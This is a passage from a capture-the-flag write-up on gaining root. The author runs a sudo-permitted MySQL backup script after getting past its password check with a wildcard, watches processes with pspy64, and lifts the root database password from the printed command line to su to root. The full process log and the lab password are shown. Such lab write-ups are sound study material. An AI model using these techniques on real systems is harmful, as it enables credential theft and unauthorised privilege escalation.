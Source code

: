 As we can see there is a database called `sys`.
So based on the script, a file called `/var/backups/mysql/sys.sql.gz` should be created when the script runs.
The next idea is simple, i tried the `PATH` trick to induce the script to call my binary/bash instead of those ones located under `/usr/bin`.
Of course it din't worked beacuse i did not look at the bash script accourately enough. It uses absoulute path like: `/usr/bin/gzip`
So this atttack is not applicable.
Another useful attack still based on apple security link, could have be to create a c binary which should be suffecientily fast to read the file before of the permission changing done with:

```bash
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
```

This din't worked and the solution is much simplier. What if i run the script and i can interecept the string with `ps aux`:

```bash
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")
```

which should show me the `$DB_PASS` for root user which can be useful? 
To achieve this task we can use `pspy64` which is a linux process tracker and run


`sudo /opt/scripts/mysql-backup.sh`

Of course we need to bypass the check for root password with the wildcard but then we find in `pspy64` the following output:


```bash
2023/12/31 11:29:37 CMD: UID=0     PID=357946 | /bin/bash /opt/scripts/mysql-backup.sh 
2023/12/31 11:29:37 CMD: UID=0     PID=357947 | /bin/bash /opt/scripts/mysql-backup.sh 
2023/12/31 11:29:37 CMD: UID=0     PID=357948 | /bin/bash /opt/scripts/mysql-backup.sh 
2023/12/31 11:29:37 CMD: UID=0     PID=357949 | /bin/bash /opt/scripts/mysql-backup.sh 
2023/12/31 11:29:38 CMD: UID=0     PID=357953 | /usr/bin/echo Backing up database: mysql 
2023/12/31 11:29:38 CMD: UID=0     PID=357955 | /bin/bash /opt/scripts/mysql-backup.sh 
2023/12/31 11:29:38 CMD: UID=0     PID=357954 | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql 
2023/12/31 11:29:38 CMD: UID=0     PID=357983 | /bin/bash /opt/scripts/mysql-backup.sh 
2023/12/31 11:29:38 CMD: UID=0     PID=357984 | /bin/bash /opt/scripts/mysql-backup.sh 
2023/12/31 11:29:38 CMD: UID=0     PID=357985 | /usr/bin/gzip 
2023/12/31 11:29:39 CMD: UID=0     PID=358036 | 
2023/12/31 11:29:39 CMD: UID=0     PID=358037 | /bin/bash /opt/scripts/mysql-backup.sh 
2023/12/31 11:29:39 CMD: UID=0     PID=358038 | /usr/bin/chown root:sys-adm /var/backups/mysql 
2023/12/31 11:29:39 CMD: UID=0     PID=358039 | /usr/bin/chmod 774 -R /var/backups/mysql 
2023/12/31 11:29:39 CMD: UID=0     PID=358040 | /bin/bash /opt/scripts/mysql-backup.sh 
```


```bash
2023/12/31 11:29:38 CMD: UID=0     PID=357954 | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 mysql 
```

using `kljh12k3jhaskjh12kjh3` has passwor when doing `su` form `joshua` let's us to become root.